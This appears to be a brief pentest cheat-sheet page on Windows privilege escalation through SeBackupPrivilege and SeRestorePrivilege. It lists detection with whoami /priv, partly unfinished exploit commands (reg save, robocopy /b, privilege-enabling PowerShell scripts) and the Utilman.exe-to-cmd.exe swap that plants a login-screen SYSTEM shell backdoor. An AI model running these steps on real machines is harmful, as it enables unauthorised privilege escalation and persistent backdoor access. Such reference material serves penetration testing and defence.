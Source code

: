 # Living off the Land

## 01 - Detect

Look for `SeBackupPrivilege` and `SeRestorePrivilege` enabled in the current local username account.

```
C:\> whoami /priv
```

## 02 - Exploit

TODO: Fill this info

```
C:\> reg save

C:\> robocopy /b
```

```
PS C:\> .\Set-TokenPrivilege.ps1 -privilege SeBackupPrivilege <pid>
```

```
PS C:\> Import-Module .\EnableSeRestorePrivilege.ps1

PS C:\> Enable-SeRestorePrivilege
```


```
PS C:\> copy C:\Windows\System32\Utilman.exe C:\Windows\System32\Utilman.bkp

PS C:\> copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe
```

---
## References

- [gtworek: EnableSeRestorePrivilege](https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeRestorePrivilege.ps1)

- [Kojiroh’s technical weblog: How to Enable SeBackupPrivilege and seRestorePrivilege](https://kojiroh.wordpress.com/2020/12/15/how-to-enable-sebackupprivilege-and-serestoreprivilege/)

- [Lee Holmes: Adjusting Token Privileges in PowerShell](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/)